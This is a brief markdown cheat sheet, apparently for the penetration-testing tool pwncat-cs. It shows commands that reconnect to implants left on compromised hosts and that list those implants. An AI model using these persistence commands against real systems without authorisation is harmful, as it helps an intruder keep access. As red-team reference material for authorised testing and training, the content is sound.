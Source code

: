 # 03 - Reconnecting with Implants

## 3.1 - Reconnect Callback Shell

```
$ pwncat-cs [reconnect://]<username>@<target_IP>

$ pwncat-cs reconnect://<username>@<host_id>
```

## 3.2 - List Implants

`$ pwncat-cs --list`